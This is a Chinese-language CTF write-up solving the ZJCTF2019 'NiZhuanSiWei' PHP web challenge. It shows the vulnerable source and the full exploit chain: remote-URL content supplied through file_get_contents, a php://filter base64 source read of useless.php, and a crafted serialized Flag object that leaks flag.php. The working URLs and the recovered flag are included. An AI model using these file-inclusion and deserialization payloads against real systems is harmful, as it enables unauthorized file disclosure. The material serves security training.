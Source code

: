 ```yaml
---
title: ZJCTF2019-NiZhuanSiWei
author: AmtuOrRF
categories: [CTF,Web]
tags: [PHP-Code-Audit]
---
```

页面源码
```php
<?php
$text = $_GET["text"];  
$file = $_GET["file"];  
$password = $_GET["password"];  
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){  
	echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";  
	if(preg_match("/flag/",$file)){  
		echo "Not now!";
		exit();
	}else{  
		include($file); //useless.php
		$password = unserialize($password);  
		echo $password;  
	}  
}  
else{ highlight_file(__FILE__);  
}  
?>
```



进入if 判断
需要一个公网主机，
```bash
$ ip a
100.x.x.56
$ echo -n "welcome to the zjctf" > index.html
$ php -S 0:80
```
访问 http://100.x.x.56/index.html
页面内容
 ```text
 welcome to the zjctf
 ```


`http://34f7d9d3-6ac7-4ae2-9a5d-807e61559a10.node4.buuoj.cn:81/?text=http://100.x.x.56/index.html`
页面返回
```html
<br><h1>welcome to the zjctf</h1></br>
```



下面这行代码反序列化，应该需要配合`useless.php`里的类进行反序列化漏洞利用
```php
include($file); //useless.php
$password = unserialize($password);
```

利用php://filter 读取源码
`http://34f7d9d3-6ac7-4ae2-9a5d-807e61559a10.node4.buuoj.cn:81/?text=http://100.x.x.56/index.html&file=php://filter/read=convert.base64-encode/resource=useless.php`

```base64
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```
base64 解密
```php
<?php

class Flag{  //flag.php
    public $file;
    public function __tostring(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}
?>
```

根据 `useless.php`的代码构造exp
```php
<?php

class Flag{
    public $file='flag.php';
}
$obj=new Flag();
echo serialize($obj);
?>
```
运行代码`$ php exp.php`，得到
```bash
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

将结果传给password
`http://34f7d9d3-6ac7-4ae2-9a5d-807e61559a10.node4.buuoj.cn:81/?text=http://100.x.x.56/index.html&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`


得到
```html
<br><h1>welcome to the zjctf</h1></br>

<br>oh u find it </br>

  

<!--but i cant give it to u now-->

  

<?php

  

if(2===3){

return ("flag{858c4f33-1368-464a-bd7f-6c3e7b318917}");

}

  

?>

<br>U R SO CLOSE !///COME ON PLZ
```